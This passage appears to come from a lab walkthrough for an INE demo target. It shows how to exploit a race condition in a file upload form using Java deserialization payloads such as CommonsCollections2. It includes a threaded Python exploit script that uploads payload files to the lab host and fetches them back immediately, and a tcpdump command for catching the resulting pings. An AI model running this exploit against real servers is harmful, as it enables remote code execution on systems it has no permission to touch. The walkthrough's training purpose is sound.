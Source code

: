 The result will look similar.

The list can be pasted directly into a Python program (the last comma after the last payload has to be deleted)

To sequentially run them and then use "read file" immediately, we need to implement the concept of threading. If we simply run the two functions above one after the other, readfile() will wait for upload() until it finishes. By this time, the target file will be gone.

Threading will simply start upload() in another thread which will allow readfile() to run without waiting for the response of upload().
```bash
for payload in payloads:
  x=threading.Thread(target=upload, args=(payload,))
  x.start()
  readfile()
  time.sleep(2)
```

Before running the exploit check if you have started a listener to detect pings - e.g. Wireshark or tcpdump.

Command:
```bash
tcpdump -i eth1 icmp
```

Step 5: Copy and paste the code and save it as exploit.py. We can now clear the list in the exploit, so its final shape will be similar to the below.
```bash
import requests
import time
import threading
def readfile(filename):
  url = "http://demo.ine.local/upload/index.php?sent=OK"
  r = requests.get(url)
  print("[+] Used filename: " + filename)
  print(r.text)
  print("\n")
def upload(filename):
  url = "http://demo.ine.local/upload/upload.php"
  files ={'uploaded_file': open(filename, 'rb')}
  r = requests.post(url, files=files)
payloads = [
'CommonsCollections2'
]

for payload in payloads:
  x=threading.Thread(target=upload, args=(payload,))
  x.start()
  readfile(payload)
  time.sleep(2)
```

Step 6: Execute the exploit code by the following command.
